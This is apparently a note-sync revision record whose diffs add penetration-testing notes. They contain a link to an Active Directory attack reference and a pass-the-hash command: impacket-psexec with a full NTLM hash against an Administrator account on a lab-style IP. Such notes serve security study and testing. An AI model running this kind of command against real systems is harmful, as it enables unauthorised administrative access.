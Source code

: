 id: 2f4b7ae3bb6846b9b54ff8fd1448da0a
parent_id: 19f939e2b04f43c6a02e58edf5245253
item_type: 1
item_id: ac73f98de647453982f599882f52fae3
item_updated_time: 1651597198450
title_diff: "[{\"diffs\":[[0,\"ral Info\"],[1,\"\\\r\"]],\"start1\":4,\"start2\":4,\"length1\":8,\"length2\":9}]"
body_diff: "[{\"diffs\":[[0,\"p=3658\\\n\\\n\"],[1,\"[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Active Directory Attack.md](\"],[0,\"https://\"]],\"start1\":249,\"start2\":249,\"length1\":16,\"length2\":135},{\"diffs\":[[0,\"ttack.md\"],[-1,\" \"],[1,\")\"],[0,\"\\\n\\\nhttps:\"]],\"start1\":492,\"start2\":492,\"length1\":17,\"length2\":17},{\"diffs\":[[0,\"d&gt;@IP\"],[1,\"\\\n\\\n# PTH\\\n\\\nimpacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8c2aa4c5e6fa079437046e279bbc2454 Administrator@10.11.1.220\"]],\"start1\":898,\"start2\":898,\"length1\":8,\"length2\":132}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-03T17:00:10.097Z
created_time: 2022-05-03T17:00:10.097Z
type_: 13